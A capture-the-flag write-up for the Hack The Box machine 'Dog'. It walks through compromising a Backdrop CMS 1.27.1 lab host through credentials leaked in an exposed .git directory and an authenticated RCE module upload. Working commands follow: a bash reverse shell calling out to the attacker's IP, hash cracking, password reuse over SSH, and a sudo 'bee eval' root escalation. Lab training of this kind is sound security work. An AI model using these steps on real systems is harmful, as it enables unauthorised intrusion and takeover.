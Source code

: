 # Dog

## Introduction

We will find a website using BackDrop CMS version `1.27.1`, which is vulnerable to Remote Code Execution and user credentials from an exposed Git directory, which we will use to log into the admin panel. From there, we'll be able to upload our reverse shell and retrieve the right user to SSH and set a foothold on the machine. Finally, a command utility that interacts with Backdrop sites will be exploited to escalate our privileges and gain root access.

## Machine infos

| Name                                           | Release Date | Retire Date | OS    | Level |
| ---------------------------------------------- | ------------ | ----------- | ----- | ----- |
| [Dog](https://app.hackthebox.com/machines/Dog) | 2025-03-08   | 2025-07-12  | Linux | Easy  |

## Enumeration

`nmap` finds two open TCP ports, SSH (22) and HTTP (80) :

```bash
 nmap -sC -sV -oA nmap 10.10.11.58
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-11 17:49 CEST
Nmap scan report for 10.10.11.58
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.09 seconds

```

The website is a blog that seems to be talking about Dogs : 

![website](images/dog-website.png) 

The login page confirms that it uses Backdrop CMS (also suggested by our earlier scan results) :

![login](images/dog-login.png) 

`nmap` also pointed out that a `.git` repository is present : 

![git-repo](images/dog-git-repo.png)  

To further inspect that repository, we can use [git-dumper](https://github.com/arthaud/git-dumper)  to download its content. After a few searches we quickly get some *mysql* database credentials inside `settings.php` : 

![settings-mysql-credentials](images/dog-settings-mysql-credentials.png) 

The about page gives us a hint on how user's email are formatted on the domain : 

![about-page](images/dog-about-page.png) 

Searching through the git repository for any user email that contains `dog.htb`, we find the user `tiffany` : 

![user-tiffany](images/dog-user-tiffany.png) 

## Foothold

Testing both user name and database root password gives us access to the admin panel : 

![admin-panel](images/dog-admin-panel.png) 

Drifting through the menus,  `Reports > Status report` displays the Backdrop CMS version : 

![backdrop-cms](images/dog-backdrop-cms.png) 

After a quick search, we find out that BackDrop CMS version `1.27.1` is vulnerable to [authenticated RCE](https://www.exploit-db.com/exploits/52021). The suggested exploit works by creating a ZIP file that could be used to create a web shell and be uploaded as a module under `admin/modules/install`: 

```bash
python3 exploit.py http://10.10.11.58
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

A warning message informs us that `Zip PHP extension` is not loaded on the server : 

![zip-extension-not-available](images/dog-zip-extension-not-available.png)  

If we try to install our module manually, by selecting the `Manual Installation` link, we get notified that only `tar, tgz, gz or bz2` extensions are allowed : 

![upload-error-requires-archive](images/dog-upload-error-requires-archive.png) 

Getting back to our exploit, we simply create a `tar` archive from the `shell` folder : 

```bash
tar -cfz shell.tar.gz shell/*
```

This time, uploading the archive is successful : 

![shell](images/dog-shell.png) 

We can then access our web shell module from  `/modules/shell/shell.php` : 

![web-shell-module](images/dog-web-shell-module.png) 

If we change the `shell.php` code with some php reverse shell code : 

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.175/4444 0>&1'");
```

and run a local server using NetCat : 

```bash
nc -lnvp 4444
```

We get a reverse shell on the machine : 

![reverse-shell](images/dog-reverse-shell.png)  

`johncusack` and `jobert` are system users : 

![system-users](images/dog-system-users.png) 

But we don't have enough permissions to get the `user.txt` : 

![not-enough-permissions-to-cat-user](images/dog-not-enough-permissions-to-cat-user.png) 

## Lateral Movement

We decide to connect to mysql and seek through usernames and passwords : 

![mysql-users-credentials](images/dog-mysql-users-credentials.png)

Then we try to crack `john` hash : 

```bash
hashid -j -m '$S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji.'
Analyzing '$S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji.'
[+] Drupal > v7.x [Hashcat Mode: 7900][JtR Format: drupal7]
```

```bash
hashcat -m 7900 hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
```

Unfortunetly, after many failed attempts, the hash won't simply crack. Trying to SSH using the same password we did for `Tiffany` with `johncusack` simply works!

![johncusack-ssh](images/dog-johncusack-ssh.png) 

## Privilege escalation

Checking for sudo rights, we see that `johncusack` can run `usr/local/bin/bee` as sudo user : 

![johncusack-sudo-rights](images/dog-johncusack-sudo-rights.png) 

[Bee](https://backdropcms.org/project/bee) is a command line utility for Backdrop CMS that includes commands that allow developers to interact with their sites by performing actions. 

If we take a look at the documentation, `Bee` provides many commands and options : 

```bash
johncusack@dog:~$ bee

🐝 Bee
Usage: bee [global-options] <command> [options] [arguments]

Global Options:
 --root
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.

 --site
 Specify the directory name or URL of the Backdrop site to use (as defined in 'sites.php'). If not set, will try to find the Backdrop site automatically based on the current directory.

 --base-url
 Specify the base URL of the Backdrop site, such as https://example.com. May be useful with commands that output URLs to pages on the site.

<SNIP>
...

ADVANCED
  db-query
   dbq
   Execute a query using db_query().

  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.

  php-script
   scr
   Execute an arbitrary PHP file after bootstrapping Backdrop.

  sql
   sqlc, sql-cli, db-cli
   Open an SQL command-line interface using Backdrop's database credentials.
```

If the `--root` flag path is set correctly, we can execute arbitrary `php` code directly. And based on  [GTFO Bins](https://gtfobins.github.io/gtfobins/php/) : 

> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Which means, if we set `--root` to the directory where the Backdrop installation reside, we should be able to execute a system command such as `/bin/bash` and escalate our privileges as root : 

```bash
sudo bee --root="/var/www/html" eval "system('/bin/bash')"
```

![root-privilege](images/dog-root-privilege.png) 

